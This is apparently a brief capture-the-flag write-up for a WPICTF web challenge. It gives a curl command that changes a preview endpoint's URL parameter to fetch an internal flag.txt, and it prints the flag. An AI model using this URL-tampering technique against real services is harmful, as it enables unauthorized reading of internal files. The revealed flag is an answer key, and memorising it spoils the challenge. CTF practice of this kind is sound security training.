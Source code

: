 #### Challenge:

👈😎👈 http://zoop.wpictf.xyz

---

#### Solution:

- update the url in the preview from `http://storage.zoop/quarterly_report.txt` to `http://storage.zoop/flag.txt`

```bash
curl 'http://zoop.wpictf.xyz/preview?url=http%3A%2F%2Fstorage.zoop%2Fflag.txt'
```

---

<details><summary>FLAG:</summary>

```
WPI{tH4nKs_z00m3r_jh0n50n} 
```

</details>
<br/>
